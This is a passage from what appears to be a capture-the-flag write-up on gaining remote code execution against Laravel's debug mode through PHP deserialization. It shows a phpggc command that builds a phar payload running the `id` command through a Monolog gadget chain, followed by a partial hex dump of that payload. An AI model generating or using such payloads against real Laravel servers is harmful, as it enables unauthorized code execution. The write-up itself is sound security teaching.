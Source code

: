 But not only does it crash, but it returns a bunch of information. This
is Laravel debug mode.

### Laravel Debug Mode RCE

#### Exploit

Goolgling for "laravel debug mode exploit", the first hit is [this
post](https://www.ambionics.io/blog/laravel-debug-rce):

![](/img/image-20210802143923384.png)

There's a PHP deserialization exploit that gets remote code execution
against Laravel debug mode. The blog post is very detailed, and at the
end, there's a link to their [GitHub containing the
exploit](https://github.com/ambionics/laravel-exploits). I'll also need
`phpggc`, available [here](https://github.com/ambionics/phpggc), to
generate the deserialization payload.

#### POC

To show it works, I'll start with the `id` command. First, I'll generate
the payload using `phpggc`:



    oxdf@hacky$ php -d'phar.readonly=0' /opt/phpggc/phpggc --phar phar -o id.phar --fast-destruct monolog/rce1 system id



This creates a serialized PHP file, which I saved as `id.phar`. The file
looks like a PHP object:



    oxdf@hacky$ xxd id.phar 
    00000000: 3c3f 7068 7020 5f5f 4841 4c54 5f43 4f4d  <?php __HALT_COM
    00000010: 5049 4c45 5228 293b 203f 3e0d 0abd 0100  PILER(); ?>.....
    00000020: 0002 0000 0011 0000 0001 0000 0000 0066  ...............f
    00000030: 0100 0061 3a32 3a7b 693a 373b 4f3a 3332  ...a:2:{i:7;O:32
    00000040: 3a22 4d6f 6e6f 6c6f 675c 4861 6e64 6c65  :"Monolog\Handle
    00000050: 725c 5379 736c 6f67 5564 7048 616e 646c  r\SyslogUdpHandl
    00000060: 6572 223a 313a 7b73 3a39 3a22 002a 0073  er":1:{s:9:".*.s
    00000070: 6f63 6b65 7422 3b4f 3a32 393a 224d 6f6e  ocket";O:29:"Mon
    00000080: 6f6c 6f67 5c48 616e 646c 6572 5c42 7566  olog\Handler\Buf
    00000090: 6665 7248 616e 646c 6572 223a 373a 7b73  ferHandler":7:{s
    000000a0: 3a31 303a 2200 2a00 6861 6e64 6c65 7222  :10:".*.handler"
    000000b0: 3b72 3a33 3b73 3a31 333a 2200 2a00 6275  ;r:3;s:13:".*.bu
    000000c0: 6666 6572 5369 7a65 223b 693a 2d31 3b73  fferSize";i:-1;s
    000000d0: 3a39 3a22 002a 0062 7566 6665 7222 3b61  :9:".*.buffer";a
    000000e0: 3a31 3a7b 693a 303b 613a 323a 7b69 3a30  :1:{i:0;a:2:{i:0
    000000f0: 3b73 3a32 3a22 6964 223b 733a 353a 226c  ;s:2:"id";s:5:"l
    00000100: 6576 656c 223b 4e3b 7d7d 733a 383a 2200  evel";N;}}s:8:".
    00000110: 2a00 6c65 7665 6c22 3b4e 3b73 3a31 343a  *.level";N;s:14:
    00000120: 2200 2a00 696e 6974 6961 6c69 7a65 6422  ".*.initialized"
    00000130: 3b62 3a31 3b73 3a31 343a 2200 2a00 6275  ;b:1;s:14:".*.bu
    00000140: 6666 6572 4c69 6d69 7422 3b69 3a2d 313b  fferLimit";i:-1;
    00000150: 733a 3133 3a22 002a 0070 726f 6365 7373  s:13:".*.process
    00000160: 6f72 7322 3b61 3a32 3a7b 693a 303b 733a  ors";a:2:{i:0;s:
    00000170: 373a 2263 7572 7265 6e74 223b 693a 313b  7:"current";i:1;
    00000180: 733a 363a 2273 7973 7465 6d22 3b7d 7d7d  s:6:"system";}}}
    00000190: 693a 373b 693a 373b 7d05 0000 0064 756d  i:7;i:7;}....dum